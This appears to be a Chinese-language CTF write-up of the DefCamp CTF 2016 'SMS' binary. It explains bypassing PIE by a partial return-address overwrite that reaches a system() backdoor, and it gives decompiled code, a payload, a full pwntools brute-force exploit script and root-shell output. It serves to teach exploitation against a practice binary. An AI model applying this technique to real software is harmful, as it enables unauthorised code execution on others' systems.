 ﻿---
layout: post
title: pwn DefCampCTF2016 SMS
excerpt: "DefCampCTF2016 SMS wirteup"
categories: [Writeup]
comments: true
---

PIE(position-independent executable, 地址无关可执行文件技术就是一个针对代码段`.text`, 数据段`.*data`，`.bss`等固定地址的一个防护技术。

本文通过partial write绕过PIE

partial write(部分写入)就是一种利用了PIE技术缺陷的bypass技术。由于内存的页载入机制，PIE的随机化只能影响到单个内存页。通常来说，一个内存页大小为0x1000，这就意味着不管地址怎么变，某条指令的后12位，3个十六进制数(就是最后的1.5个字节)的地址是始终不变的。

由于程序是小端序,所以覆盖return addr的时候会从后往前覆盖,因此通过覆盖EIP的后8或16位 (按字节写入，每字节8位)就可以快速爆破或者直接劫持EIP

最终就是写入1.5个字节的地址,爆破0.5个字节的地址,完成绕过PIE保护

checksec
```python
>>> from pwn import *
>>> print ELF('./SMS').checksec()
[*] '/root/sploitfun/DefCamp_CTF_2016/SMS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
通过ida查看到程序中的后门地址,通过查看frontdoor的汇编代码我们知道其地址后三位是0x900
```
int frontdoor()
{
  char s; // [sp+0h] [bp-80h]@1

  fgets(&s, 128, _bss_start);
  return system(&s);
}
```
```
.text:0000000000000900                 push    rbp
.text:0000000000000901                 mov     rbp, rsp
.text:0000000000000904                 add     rsp, 0FFFFFFFFFFFFFF80h
.text:0000000000000908                 mov     rdx, cs:__bss_start ; stream
.text:000000000000090F                 lea     rax, [rbp+s]
.text:0000000000000913                 mov     esi, 80h        ; n
.text:0000000000000918                 mov     rdi, rax        ; s
.text:000000000000091B                 call    _fgets
.text:0000000000000920                 lea     rax, [rbp+s]
.text:0000000000000924                 mov     rdi, rax        ; command
.text:0000000000000927                 call    _system
.text:000000000000092C                 nop
.text:000000000000092D                 leave
```
set_user得知name的地址在a1 + 140
```c
int __fastcall set_user(__int64 a1)
{
  char s[140]; // [sp+10h] [bp-90h]@1
  int i; // [sp+9Ch] [bp-4h]@1

  memset(s, 0, 0x80uLL);
  puts("Enter your name");
  printf("> ", 0LL);
  fgets(s, 128, _bss_start);
  for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];
  return printf("Hi, %s", a1 + 140);
}
```
而set_sms中,strncpy的长度保存在a1 + 180
```c
char *__fastcall set_sms(__int64 a1)
{
  char s; // [sp+10h] [bp-400h]@1

  memset(&s, 0, 0x400uLL);
  puts("SMS our leader");
  printf("> ", 0LL);
  fgets(&s, 1024, _bss_start);
  return strncpy((char *)a1, &s, *(_DWORD *)(a1 + 180));
}
```
从而可以通过name,控制set_sms中strncpy的长度

payload如下
```
payload = 'a'*40                                        #padding
payload += '\xca'                                        #修改长度为202，即payload的长度，这个参数会在其后的strncpy被使用
io.sendline(payload)
io.recv()
payload = 'a'*200                                        #padding
payload += '\x01\xa9'                                #frontdoor的地址后三位是0x900, +1跳过push rbp
io.sendline(payload)
```
我们看到注释里用的不是0x900而是0x901，这是因为在实际调试中发现跳转到frontdoor时会出错。为了验证payload的正确性，我们可以在调试时通过IDA修改内存地址修正爆破位的值，此处从略。

最终payload
```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

context.update(arch = 'amd64', os = 'linux')
i = 0

while True:
	i += 1
	print i
	io = process('SMS')
	io.recv()
	payload = 'a'*40					#padding
	payload += '\xca'					#修改长度为202，即payload的长度，这个参数会在其后的strncpy被使用
	io.sendline(payload)
	io.recv()
	payload = 'a'*200					#padding
	payload += '\x01\xa9'				#frontdoor的地址后三位是0x900, +1跳过push rbp
	io.sendline(payload)
	io.recv()
	try:
		io.recv(timeout = 1)			#要么崩溃要么爆破成功，若崩溃io会关闭，io.recv()会触发EOFError
	except EOFError:
		io.close()
		continue
	else:
		sleep(0.1)
		io.sendline('/bin/sh\x00')
		sleep(0.1)
		io.interactive()				#没有EOFError的话就是爆破成功，可以开shell
		break
```
最终结果
```
[+] Starting local process './SMS': pid 24042
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)
```